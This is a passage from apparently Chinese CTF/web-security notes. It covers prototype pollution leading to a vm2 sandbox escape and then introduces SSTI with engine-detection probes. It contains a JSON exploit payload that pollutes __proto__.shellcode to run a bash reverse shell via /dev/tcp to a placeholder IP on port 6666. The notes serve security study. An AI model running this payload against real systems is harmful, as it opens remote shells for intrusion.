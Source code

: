 `clone()` 函数很明显的一个原型链污染，而 `VM2` 会执行 `shellcode` 属性的内容，那么也就是我们需要将该属性污染成 `VM2` 沙箱逃逸的 `Payload` 即可执行任意命令。
> 谷歌搜索该漏洞的 [exp](https://xz.aliyun.com/t/11859#toc-5)，然后`json`格式发送即可。

```json
{"shit":1,"__proto__":{"shellcode":"let res = import('./foo.js');res.toString.constructor(\"return this\")().process.mainModule.require(\"child_process\").execSync('bash -c \"bash -i >& /dev/tcp/ip/6666 0>&1\"').toString();"}}
```

---
## SSTI
**漏洞成因：**
* 模板引擎机制：模板引擎的作用是将动态数据与静态模板结合生成最终的输出内容。他们通过替换指定的标签或执行某些代码片段来实现这一过程。
* 用户输入处理：当构建这些模板时，如果服务端未对用户输入进行正确的过滤和转义，恶意用户可能会插入一些特殊的代码片段。这些代码片段在模板引擎渲染过程中被执行，可能导致不安全的代码或命令被执行。
* 注入的本质：就像 `SQL` 注入允许攻击者通过构造特殊的输入来干预数据库查询一样，`SSTI` 允许攻击者干预模板渲染的过程。这可以导致敏感信息泄露、远程代码执行等严重后果。
* [参考链接0](https://xz.aliyun.com/t/3679)、[参考链接1](https://juejin.cn/post/7042597302413819911)
### Python部分
```mermaid
graph LR
	start("${7 * 7}") --> next1("a{*comment*}b")
	start --> next2("{{7 * 7}}")
	next1 --> Smarty
	next1 --> next3("${'z'.join('ab')}")
	next3 --> Mako
	next3 --> Unknown
	next2 --> next4("{{7 * '7'}}")
	next2 --> next5("Not vulnerable")
	next4 --> Jinja2
	next4 --> Twig
	next4 --> Unknown
```
#### Payload基础

![image](./asserts/SSTI-Python-0.png)

`__class__`：用于查找当前类型的所属对象，作用相当于 `type()`，用来获取类的类型。
